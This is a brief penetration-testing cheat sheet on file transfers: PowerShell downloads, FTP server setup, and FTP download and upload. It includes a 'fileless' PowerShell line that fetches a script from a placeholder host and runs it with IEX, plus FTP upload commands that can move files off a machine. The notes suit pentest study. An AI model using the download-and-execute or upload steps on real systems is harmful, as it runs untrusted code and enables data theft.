 ```yaml
---
title: "File Transfers for Penetration Testing"
date: 2024-07-30
---
```


---

# Windows

## Download Files using Powershell

The easiest way to download files using Powershell is to use the `Net.WebClient` class. This class provides a intuitive way to download HTTP HTTPS and FTP files.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile("http://example.com/file.txt", "C:\path\to\file.txt")
```

Of course, you can also use the `Invoke-WebRequest` cmdlet which is the windows equivalent of `curl` or `wget`. The `DownloadFile` method is used to download a file to a specified location.

```powershell
Invoke-WebRequest -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
curl -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
wget -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
```

## Download Fileless strings using Powershell

In very rare cases, you may need to download a file without writing it to disk. This can be done using the `Net.WebClient` class and the `DownloadString` method. The IEX command can be used to execute the downloaded script.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadString("http://example.com/file.txt") | IEX
```

---

# Linux

---

# FTP

### Server

We can start a FTP server on Linux and window machine using the following command, just make sure to have the `pyftpdlib` package installed using pip or any other package manager:

```bash
sudo python3 -m pyftpdlib -i <IP> -p 21
```

### Client Download

here is how we can download a file from the FTP server:

```bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> get <FileName>
```

or

```bash
wget ftp://<IP>/<FileName>
```

### Client Upload

````bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> put <FileName>

```bash
curl -T localfile.txt ftp://anonymous:anonymous@ftp.<IP>/path/to/remote/file.txt
````
